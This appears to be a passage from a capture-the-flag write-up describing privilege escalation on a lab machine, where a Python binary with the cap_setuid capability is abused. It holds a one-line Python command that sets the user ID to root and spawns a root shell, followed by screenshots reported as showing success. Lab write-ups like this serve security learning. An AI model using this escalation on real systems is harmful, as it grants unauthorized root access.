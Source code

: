 We can see the `/usr/bin/python3.8` binary  has a `cap_setuid`. Te exploit this vulnerability, we can use this exploit.   

```bash
/usr/bin/python3.8 -c "import os;os.setuid(0);os.system('/bin/bash')"
```

The exploit was executed successfully.  

 <br/> 
<img src="/img/cap_screenshots/Pasted image 20241105214712.png" alt="1" style="width:700px; height:auto;">
<br/>

The machine was `pawned` successfully. 

 <br/> 
<img src="/img/cap_screenshots/Pasted image 20241105214812.png" alt="1" style="width:700px; height:auto;">
<br/>
